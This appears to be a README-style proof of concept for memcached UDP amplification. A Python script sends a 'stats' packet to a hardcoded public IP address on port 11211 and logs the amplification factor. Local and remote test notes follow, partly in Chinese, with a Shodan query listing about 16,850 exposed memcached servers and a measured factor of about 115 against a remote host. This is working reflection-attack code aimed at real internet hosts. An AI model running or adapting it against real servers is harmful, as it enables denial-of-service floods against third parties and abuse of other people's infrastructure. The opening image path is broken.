 # payload
```
import socket
from loguru import logger
import sys
from time import sleep

logger.remove(handler_id=None)
level = "INFO"
logger.add(sink=sys.stdout, level=level)

host='47.104.221.142'
port=11211

def recv_all(sock):
    sock.settimeout(1)
    recv_data = b''
    data_len = 0
    while True:
        try:
            data = sock.recv(1024)
            if data == b'':
                break
            recv_data += data
            data_len += len(data)
        except Exception as e:
            break

    return recv_data, data_len

def handler(msg):

    recv_data = b''
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(msg, (host, port))
    msg_len = len(msg)
    
    data, data_len = recv_all(sock)

    logger.info(f'send_len: {msg_len} -> res_len: {data_len}')
    factor_l7 = data_len / msg_len
    logger.info(f"factor_l7: {factor_l7}")

    sock.close()

get_stats_128_60 = b'\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n'

def main():
    msgs = get_stats_128_60
    handler(msgs)

if __name__ == '__main__':
    main()
```

# local test
Complite memcached version 1.6.29.

Run memcached with `./memcached -u root`

The service runs on UDP port 11211 by default.
![1](assests/1.png)

Sending requests to the service port using payload.py can result in an amplified response, with an amplification factor of about 103.
![2](assests/2.png)

# remote test

使用shodan搜索`port:11211 product:"Memcached"`，大约能找到16,850个可用的memcached服务
![4](assests/4.png)

使用`payload.py`向服务端口发送请求，可以得到放大的响应，放大系数约为115
![3](assests/3.png)